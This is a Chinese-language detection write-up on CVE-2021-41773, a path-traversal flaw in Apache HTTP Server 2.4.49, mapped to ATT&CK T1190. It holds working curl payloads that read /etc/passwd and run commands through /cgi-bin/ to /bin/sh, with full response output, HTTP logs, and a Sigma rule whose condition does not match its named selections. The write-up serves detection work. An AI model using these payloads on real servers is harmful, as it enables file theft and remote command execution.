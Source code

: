 # T1190-CVE-2021-41773-Apache HTTP Server 2.4.49路径穿越漏洞

## 0x1 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 0x2 测试案例

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。在其2.4.49版本中，引入了一个路径穿越漏洞，满足下面两个条件的Apache服务器将会受到影响：

版本等于2.4.49

穿越的目录允许被访问，比如配置了<Directory/>Require all granted</Directory>。（默认情况下是不允许的）

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

## 0x3 漏洞详情

使用如下CURL命令来发送Payload（注意其中的/icons/必须是一个存在且可访问的目录）：

```yml
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

可见，成功读取到/etc/passwd：

```yml
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 03:40:43 GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
< ETag: "39e-5cceec7356000"
< Accept-Ranges: bytes
< Content-Length: 926
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```yml
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

```yml
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> Content-Length: 7
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 7 out of 7 bytes
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 03:45:29 GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

## 0x4 检测日志

HTTP.log

```http.log
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*

HTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 03:36:46 GMT
Server: Apache/2.4.49 (Unix)
Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
ETag: "39e-5cceec7356000"
Accept-Ranges: bytes
Content-Length: 926

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

```http.log
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 7
Content-Type: application/x-www-form-urlencoded

echo;idHTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 03:36:51 GMT
Server: Apache/2.4.49 (Unix)
Transfer-Encoding: chunked

2d
uid=1(daemon) gid=1(daemon) groups=1(daemon)

0
```

## 0x5 测试复现

可参考漏洞详情部分

## 0x6 检测规则/思路

### sigma规则

```yml
title: CVE-2021-41773-Apache HTTP Server 2.4.49路径穿越漏洞
status: 测试状态
description: 基于HTTP日志进行检测
references:
    - https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.zh-cn.md
    - https://www.t00ls.cc/viewthread.php?tid=62967&highlight=CVE-2021-41773
detection:
    selection1:
        cs-method: 'POST' #请求方法为POST
        c-uri: #请求url中包含以下路径
            - '.%2e/.%2e/.%2e/.%2e'
    selection2:
        cs-method: 'GET' #请求方法为GET
        c-uri: '.%2e/%2e%2e/%2e%2e/%2e%2e/'
    condition: selection
fields: 
    - c-ip
    - c-dns
falsepositives: 
    - 观察返回状态码是否为200 OK。
level: high
```

### 建议

建议使用HTTP流量+安全设备(如天眼等)进行检测分析判断攻击是否成功。

## 0x7 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2021-41773 Apache漏洞分析及RCE思路

<https://www.t00ls.cc/viewthread.php?tid=62967&highlight=CVE-2021-41773>

Apache HTTP Server 2.4.49 路径穿越漏洞（CVE-2021-41773）

<https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.zh-cn.md>

